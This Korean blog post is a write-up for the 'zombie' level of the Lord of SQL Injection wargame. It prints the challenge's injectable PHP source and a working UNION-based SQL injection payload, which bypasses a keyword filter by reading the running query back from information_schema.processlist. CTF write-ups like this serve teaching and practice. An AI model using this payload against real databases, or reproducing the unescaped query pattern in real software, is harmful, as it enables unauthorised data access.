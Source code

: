 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - zombie 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


핳핳 드디어 거의 끝이 보인다!  

이번 문제는 `zombie`이다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------
query : select pw from prob_zombie where pw=''
----------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

처음엔 이 문제 보고 `이 전 문제 푼거랑 똑같이 풀면 되겠다!` 생각했다.  

근데 `ace`에 필터링이 있어서 `replace`를 사용을 못하더라.  

그래서 어떻게 풀지... 고민하는데 내 옆에 있던 `웹짱해커`님이 `ㅎㅎ 겁나 쉽게 풀 수 있는데~~` 이러고 약올렸다. ㅂㄷㅂㄷ  

화나는 건 이렇게 약올리는데 난 방법을 모르겠는거다!  

어쨌든 어찌어찌 풀긴 했는데, `information_schema`의 테이블 이름을 다 외우고 있어야되나 싶은 생각이 들었다.  

`information_schema` 데이터베이스를 보면 `processlist`라는 테이블이 있다.  

이 테이블에는 현재 실행중인 쿼리문이 저장되어 있다.  

실제 내 서버에서 확인해 본 결과이다.  

```
mysql> select * from processlist;
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| ID | USER | HOST      | DB                 | COMMAND | TIME | STATE     | INFO                      |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| 24 | root | localhost | information_schema | Query   |    0 | executing | select * from processlist |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
1 row in set (0.00 sec)
```

`INFO` 컬럼에 내가 방금 입력 한 `select * from processlist`가 있는 것을 알 수 있다.  

그렇다면 내가 문제를 풀기위해 입력하는 쿼리도 이 `processlist`에 들어가 있을테니, 그 `processlist`에서 데이터를 추출 해 내가 입력 한 부분만 잘라내면 그 결과가 똑같이 나오게 될 것이다.  

```
?pw=' union select substr(info, 38, 72) from information_schema.processlist#
```

위와 같이 넘겨준다면, `processlist`의 `info` 컬럼에 `select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#` 가 저장되어 있을 것이다.  

이 때, `substr(info, 38, 72)`를 `select`하도록 해, 내가 입력 한 `' union select substr(info, 38, 72) from information_schema.processlist#`를 뽑아 오도록 하면 된다.  

힣 `zombie`도 처치했다!  

```php
---------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#'
---------------------------------------------------------------------------------------------------------------------------------------------

Pw : ' union select substr(info, 38, 72) from information_schema.processlist#
ZOMBIE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

`ZOMBIE Clear!!`